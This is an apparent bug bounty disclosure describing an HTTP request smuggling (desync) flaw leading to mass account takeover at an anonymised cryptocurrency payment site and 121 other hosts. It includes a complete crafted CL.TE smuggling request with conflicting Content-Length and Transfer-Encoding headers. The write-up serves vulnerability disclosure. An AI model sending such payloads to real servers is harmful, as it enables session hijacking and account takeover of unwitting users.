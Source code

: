 # HTTP Desync Attack (Request Smuggling) - Mass Account Takeover at a Cryptocurrency based asset and 121 other websites

## Description -:

**NOTE** to respect the nondisclosure policy of the program, the actual vulnerable asset is not disclosed and the same has been referenced as `my.vulnerable.com` wherever necessary.

I had found an HTTP Desync (Request Smuggling) vulnerability affecting one of the cryptocurrency payment system (`https://my.vulnerable.com`) along with 121 other hosts utilizing the Distil Bot protection.

It was observed that the front end server is using the `Content-Length` while the back end server is making use of `Transfer-Encoding` header to determine the length of an HTTP request. This desynchronization in determining the length of request between the servers could be abused into escalating a Mass Account Takeover scenario by utilizing the POST parameters of urlencoded form to log requests of legit users.

## Proof of Concept - Basic -:

Please **NOTE** that in an effort to provide the key proof of concept in the most basic and realistic form, the entire demonstration was carried out by utilizing two different machines operating at two different public IP addresses (one to depict victim and other for attacker) by making the use of Burp's native intruder instead of Turbo intruder. It should also be noted that the following form of testing would cause realtime disruption against the genuine users and so during the submission of this report, the entire assessment was carried out within the staging environment instead of production systems. Inbuilt Burp's intruder could be utilized in such cases since the staging environment would suffer relatively low traffic.

1) As a victim, visit at `https://my.vulnerable.com` at your browser and intercept the GET request. Send it to Burp's repeater and observe you're getting an `HTTP/1.1 200 OK` response as usual as expected.

2) Now as an attacker, from a different public IP address, have the following ambiguous request kept at one of your Burp's repeater tab -:

```http
POST / HTTP/1.1
Host: my.vulnerable.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://my.vulnerable.com/
Cookie: ******************
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked
Transfer-encoding: identity

0

TRACE /hopefully405 HTTP/1.1
X-Ignore: X
```
